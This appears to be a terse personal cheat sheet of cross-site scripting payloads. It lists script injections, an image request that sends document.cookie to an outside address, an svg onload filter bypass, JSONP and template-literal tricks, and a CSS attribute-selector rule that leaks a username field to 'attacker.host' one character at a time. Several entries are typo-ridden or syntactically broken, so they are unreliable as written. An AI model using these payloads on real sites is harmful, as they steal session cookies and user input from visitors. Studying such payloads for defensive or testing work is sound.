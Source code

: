 # XSS Payloads

1. `<script>alert(1)</script>`
2. `document.replace("attacker")` for if outbound is blocked
3. `XMLHTTP request`
4. `fetch` or `$.get` (fetch is built in)
5. `document.write('<img src="'+attack+'">"')`
6. `document.write('<img src="attacker" onerror="mallicious">')`
7. `<script>new Image().src = "fsfsfsfsfsfsd?"+document.cookie`
    - note that '//' is the default protocol i.e 'http://'
8. `<svg onload=''>`
    - note thst if spaces are blocked yu can do `<svg\onload="lol">`
9. jsonp `http://news.com/wethertype=jsonp&method=somefunction` runs function
    - use comma expressions to run whatever you want
10. templete literals :(
    - Array.join`${document.cookie}`
11. sometimes grab the enite page source rather then the cookie.
12. onload and onfocus to trigger
13. not xss but we can use css to send requests.
```css
#username[value^="a"] {
  background: url("https://attacker.host/mikeg");
}
```
you need to write a script to slowly guess the string each time.

14. polyglots 
